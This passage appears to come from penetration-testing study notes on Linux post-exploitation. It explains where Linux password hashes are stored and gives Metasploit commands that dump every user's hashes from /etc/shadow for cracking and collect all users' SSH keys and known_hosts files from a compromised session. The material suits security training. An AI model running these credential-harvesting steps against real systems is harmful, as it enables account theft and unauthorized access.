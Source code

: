 - Linux user account hashes can be dumped using the privileged `root` user.
- Terminate the shell session and background the meterpreter session.

### Hashdump

> 📌 Linux password hashes are stored in the **`/etc/shadow`** file, accessible **only by a user with root privileges**.
>
> - In newer Linux, the hashed passwords are stored in the `/etc/shadow` file. In turn, the hashed password field in the `/etc/passwd` file is filled with the `x` character. `/etc/passwd` is readable by all the users.
> - Linux users' passphrases are hashed using the [crypt](https://manpages.debian.org/unstable/libcrypt-dev/crypt.5.en.html) function. The hashed passphrase follows a specific format: **`$id$salt$hashedpassword`**
> - [Methods Used by Linux for Hashing Passwords](https://www.baeldung.com/linux/hashing-methods-password)

- `post/linux/gather/hashdump` module need to be run manually to dump the user account hashes and unshadow them
  - A hash can be cracked (with `John the Ripper`) or stored for later use

```bash
search hashdump
use post/linux/gather/hashdump
info
# Description:
#   Post Module to dump the password hashes for all users on a Linux 
#   System
set SESSION 2
run
```

![Metasploit - post/linux/gather/hashdump](.gitbook/assets/image-20230422144950444.png)

![loot](.gitbook/assets/image-20230422145236520.png)

### Some Post Exploitation

- Enumerate **ssh** directories

```bash
search ssh_creds
use post/multi/gather/ssh_creds
info
# Description:
#   This module will collect the contents of all users' .ssh directories 
#   on the targeted machine. Additionally, known_hosts and 
#   authorized_keys and any other files are also downloaded. This module 
#   is largely based on firefox_creds.rb.
sessions
# Set the Meterpreter session
set SESSION 2
run
```

